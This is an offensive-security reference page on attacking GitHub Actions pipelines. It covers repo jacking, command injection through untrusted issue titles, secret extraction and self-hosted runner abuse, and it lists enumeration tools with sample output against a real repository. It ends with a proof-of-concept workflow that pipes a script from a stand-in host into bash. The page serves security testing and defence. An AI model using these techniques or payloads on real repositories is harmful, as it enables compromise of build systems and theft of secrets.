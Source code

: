 # GitHub Actions

## Default Action

The configuration files for GH actions are located in the directory `.github/workflows/`\
You can tell if the action builds pull requests based on its trigger (`on`) instructions:

```yaml
on:
  push:
    branches:
      - master
  pull_request:
```

In order to run a command in an action that builds pull requests, add a `run` instruction to it.

```yaml
jobs:
  print_issue_title:
    runs-on: ubuntu-latest
    name: Command execution
    steps:
    - run: echo whoami"
```

## Misconfigured Actions

Analyze repositories to find misconfigured Github actions.

* [synacktiv/octoscan](https://github.com/synacktiv/octoscan) - Octoscan is a static vulnerability scanner for GitHub action workflows.
* [boostsecurityio/poutine](https://github.com/boostsecurityio/poutine) - Poutine is a security scanner that detects misconfigurations and vulnerabilities in the build pipelines of a repository. It supports parsing CI workflows from GitHub Actions and Gitlab CI/CD.

    ```ps1
    # Using Docker
    $ docker run ghcr.io/boostsecurityio/poutine:latest

    # Analyze a local repository
    $ poutine analyze_local .

    # Analyze a remote GitHub repository
    $ poutine -token "$GH_TOKEN" analyze_repo messypoutine/gravy-overflow

    # Analyze all repositories in a GitHub organization
    $ poutine -token "$GH_TOKEN" analyze_org messypoutine

    # Analyze all projects in a self-hosted Gitlab instance
    $ poutine -token "$GL_TOKEN" -scm gitlab -scm-base-uri https://example.com org/repo
    ```

![GitHub-Actions-Attack-Diagram](https://raw.githubusercontent.com/jstawinski/GitHub-Actions-Attack-Diagram/refs/heads/main/GitHub%20Actions%20Attack%20Diagram.svg)

### Repo Jacking

When the action is using a non-existing action, Github username or organization.

```yaml
- uses: non-existing-org/checkout-action
```

> :warning: To protect against repojacking, GitHub employs a security mechanism that disallows the registration of previous repository names with 100 clones in the week before renaming or deleting the owner's account. [The GitHub Actions Worm: Compromising GitHub Repositories Through the Actions Dependency Tree - Asi Greenholts](https://www.paloaltonetworks.com/blog/prisma-cloud/github-actions-worm-dependencies/)

### Untrusted Input Evaluation

An action may be vulnerable to command injection if it dynamically evaluates untrusted input as part of its `run` instruction:

```yaml
jobs:
  print_issue_title:
    runs-on: ubuntu-latest
    name: Print issue title
    steps:
    - run: echo "${{github.event.issue.title}}"
```

### Extract Sensitive Variables and Secrets

**Variables** are used for non-sensitive configuration data. They are accessible only by GitHub Actions in the context of this environment by using the variable context.

**Secrets** are encrypted environment variables. They are accessible only by GitHub Actions in the context of this environment by using the secret context.

```yml
jobs:
  build:
    runs-on: ubuntu-latest
    environment: env
    steps:
      - name: Access Secrets
        env:
            SUPER_SECRET_TOKEN: ${{ secrets.SUPER_SECRET_TOKEN }}
        run: |
            echo SUPER_SECRET_TOKEN=$SUPER_SECRET_TOKEN >> local.properties
```

* [synacktiv/gh-hijack-runner](https://github.com/synacktiv/gh-hijack-runner) - A python script to create a fake GitHub runner and hijack pipeline jobs to leak CI/CD secrets.

## Self-Hosted Runners

A self-hosted runner for GitHub Actions is a machine that you manage and maintain to run workflows from your GitHub repository. Unlike GitHub's own hosted runners, which operate on GitHub's infrastructure, self-hosted runners run on your own infrastructure. This allows for more control over the hardware, operating system, software, and security of the runner environment.

Scan a public GitHub Organization for Self-Hosted Runners

* [AdnaneKhan/Gato-X](https://github.com/AdnaneKhan/Gato-X) - Fork of Gato - Gato (Github Attack TOolkit) - Extreme Edition
* [praetorian-inc/gato](https://github.com/praetorian-inc/gato) - GitHub Actions Pipeline Enumeration and Attack Tool

    ```ps1
    gato -s enumerate -t targetOrg -oJ target_org_gato.json
    ```

There are 2 types of self-hosted runners: non-ephemeral and ephemeral.

* **Ephemeral** runners are short-lived, created to handle a single or limited number of jobs before being terminated. They provide isolation, scalability, and enhanced security since each job runs in a clean environment.
* **Non-ephemeral** runners are long-lived, designed to handle multiple jobs over time. They offer consistency, customization, and can be cost-effective in stable environments where the overhead of provisioning new runners is unnecessary.

Identify the type of self-hosted runner with `gato`:

```ps1
gato e --repository vercel/next.js
[+] The authenticated user is: swisskyrepo
[+] The GitHub Classic PAT has the following scopes: repo, workflow
    - Enumerating: vercel/next.js!
[+] The repository contains a workflow: build_and_deploy.yml that might execute on self-hosted runners!
[+] The repository vercel/next.js contains a previous workflow run that executed on a self-hosted runner!
    - The runner name was: nextjs-hel1-22 and the machine name was nextjs-hel1-22 and the runner type was repository in the Default group with the following labels: self-hosted, linux, x64, metal
[!] The repository contains a non-ephemeral self-hosted runner!
[-] The user can only pull from the repository, but forking is allowed! Only a fork pull-request based attack would be possible.
```

Example of workflow to run on a non-ephemeral runner:

```yml
name: POC
on:
  pull_request:
  
jobs:
  security:
    runs-on: non-ephemeral-runner-name

    steps:
      - name: cmd-exec
        run: |
          curl -k https://ip.ip.ip.ip/exec.sh | bash
```

## References

* [GITHUB ACTIONS EXPLOITATION: SELF HOSTED RUNNERS - Hugo Vincent - 17/07/2024](https://www.synacktiv.com/publications/github-actions-exploitation-self-hosted-runners)
* [GITHUB ACTIONS EXPLOITATION: REPO JACKING AND ENVIRONMENT MANIPULATION - Hugo Vincent - 10/07/2024](https://www.synacktiv.com/publications/github-actions-exploitation-repo-jacking-and-environment-manipulation)
* [GITHUB ACTIONS EXPLOITATION: DEPENDABOT - Hugo Vincent - 06/08/2024](https://www.synacktiv.com/publications/github-actions-exploitation-dependabot)
